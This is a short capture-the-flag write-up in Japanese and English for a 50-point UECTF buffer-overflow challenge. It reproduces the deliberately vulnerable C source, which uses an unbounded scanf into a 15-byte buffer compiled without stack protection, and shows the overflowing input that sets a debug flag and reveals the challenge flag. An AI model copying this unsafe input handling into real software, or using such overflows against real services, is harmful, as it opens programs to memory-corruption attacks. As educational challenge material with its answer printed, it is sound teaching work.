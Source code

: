 # buffer_overflow:PWN:50pts
バッファオーバーフローを知っていますか？  
Do you know buffer overflow?  
コンパイルオプションは-fno-stack-protectorをつけています。  
```bash
gcc ./bof_source.c -fno-stack-protector
```

`nc uectf.uec.tokyo 30002`

[bof_source.c](bof_source.c)  

# Solution
接続先とソースが配布される。  
ソースを見ると以下のようであった。  
```C
#include<stdio.h>
#include<string.h>
int debug();
int main(){
  char debug_flag,name[15];
  debug_flag='0';
  printf("What is your name?\n>");
  scanf("%s",name);
  if(debug_flag=='1'){
    debug();
  }
  printf("Hello %s.\n",name);
  return 0;
}

int debug(){
  char flag[32]="CTF{THIS_IS_NOT_TRUE_FLAG}";
  printf("[DEBUG]:flag is %s\n",flag);
}
```
なんとか`debug_flag`を1にすればいいようだが、自明なBOFがある。  
以下のように1を連打する。  
```bash
$ nc uectf.uec.tokyo 30002
What is your name?
>1111111111111111
[DEBUG]:flag is UECTF{ye4h_th1s_i5_B0f_flag}
Hello 1111111111111111.
```
flagが得られた。  

## UECTF{ye4h_th1s_i5_B0f_flag}